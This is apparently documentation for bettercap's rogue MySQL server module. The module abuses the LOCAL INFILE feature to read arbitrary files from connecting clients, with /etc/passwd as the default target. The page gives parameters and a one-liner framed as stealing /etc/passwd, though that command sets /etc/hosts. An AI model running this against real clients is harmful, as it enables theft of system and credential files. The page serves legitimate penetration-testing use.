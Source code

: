 ```yaml
---
title: "mysql.server (rogue)"
date: 2019-02-25T13:25:31+01:00
draft: false
weight: 3
---
```


A simple Rogue MySQL server, to be used to exploit LOCAL INFILE and read arbitrary files from the client.

**Commands**

| command | description |
|---------|-------------|
| `mysql.server on` | Start mysql server. |
| `mysql.server off` | Stop mysql server. |

**Parameters**

| parameter | default | description |
|-----------|---------|-------------|
| `mysql.server.infile` | `/etc/passwd` | File you want to read. UNC paths are also supported. | 
| `mysql.server.outfile` | | If filled, the INFILE buffer will be saved to this path instead of being logged. |
| `mysql.server.address` |  `<interface address>` | Address to bind the mysql server to. |
| `mysql.server.port` | `3306` | Port to bind the mysql server to. |
| `mysql.server.outfile` | If filled, the INFILE buffer will be saved to this path instead of being logged. | 

**Examples**

One liner to start the server and steal /etc/passwd from clients connecting to your Rogue MySQL server

    $ sudo bettercap -eval "set mysql.server.infile /etc/hosts; mysql.server on"

Now connect to your MySQL server and observe the file output on the Bettercap terminal

    $ mysql -u root -h 192.168.1.123 -pasdsasad --enable-local-infile

**Author**

[Bernardo Rodrigues](https://github.com/bmaia)

**Ref**

https://w00tsec.blogspot.it/2018/04/abusing-mysql-local-infile-to-read.html
